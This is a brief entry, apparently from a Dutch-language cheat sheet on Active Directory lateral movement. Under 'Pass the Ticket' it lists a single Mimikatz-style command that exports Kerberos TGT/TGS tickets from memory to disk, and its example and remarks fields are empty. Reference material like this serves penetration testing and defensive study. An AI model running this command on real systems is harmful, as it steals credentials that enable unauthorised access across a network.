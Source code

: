 # 24. AD Lateral Movement — Entry 33

## Categorie

Pass the Ticket

## Commando

```
sekurlsa::tickets /export
```

## Omschrijving

```
Exporting Kerberos TGT/TGS to disk
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

